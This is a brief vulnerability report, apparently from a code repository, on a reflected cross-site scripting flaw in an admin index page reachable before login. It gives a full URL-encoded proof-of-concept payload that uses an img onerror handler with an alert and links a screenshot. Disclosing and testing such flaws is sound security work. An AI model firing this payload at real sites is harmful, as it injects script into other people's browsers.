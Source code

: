 # name 
reflection xss

# path
http://127.0.0.1:9999/admin/index
befor login

# xss Payload

http://127.0.0.1:9999/admin/index/%3Cimg%20src=lll%20onerror=alert(111)%3E%3C!--

# image

[![](./img/xss1.png)](./img/xss1.png)
